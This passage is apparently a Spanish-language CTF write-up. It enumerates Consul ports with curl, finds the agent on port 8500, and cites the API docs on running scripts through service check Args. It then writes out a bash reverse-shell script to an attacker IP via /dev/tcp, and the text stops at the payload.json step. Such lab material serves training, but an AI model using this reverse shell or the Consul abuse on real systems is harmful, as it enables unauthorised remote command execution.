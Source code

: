 ```console
8301:

curl: (52) Empty reply from server
8302:

curl: (52) Empty reply from server
8500:

Consul Agent: UI disabled. To enable, set ui_config.enabled=true in the agent configuration and restart.8301:

curl: (52) Empty reply from server
8302:

curl: (52) Empty reply from server
8600:

curl: (52) Empty reply from server
```

Solo conseguimos respuesta del puerto **8500** y menciona algo de `Consul`, buscando en internet encontramos lo siguiente:

> [Consul service](https://www.consul.io/)

![Consul meaning](consul_mean.png){: .shadow}

Ya que sabemos que `Consul` corre por detrás y no es la versión mas reciente, para informarnos más buscamos información en su **Documentación**:

> [Register Service](https://developer.hashicorp.com/consul/api-docs/agent/service#register-service) with Consul API

![Register service](register_service.png){: .shadow}

Observamos que en la sección `Args` podemos ejecutar un archivo en intervalos de tiempo especificados. Pero que es ese archivo en `.json`?:

> [Service Configuration](https://developer.hashicorp.com/consul/docs/discovery/services#register-services-with-service-definitions)

![Service configuration](service_configuration.png){: .shadow}

Ahora creamos nuestros archivos:

> _reverse.sh_

```shell
#!/bin/bash

/bin/bash -i >& /dev/tcp/10.10.14.155/1234 0>&1
```

> _payload.json_

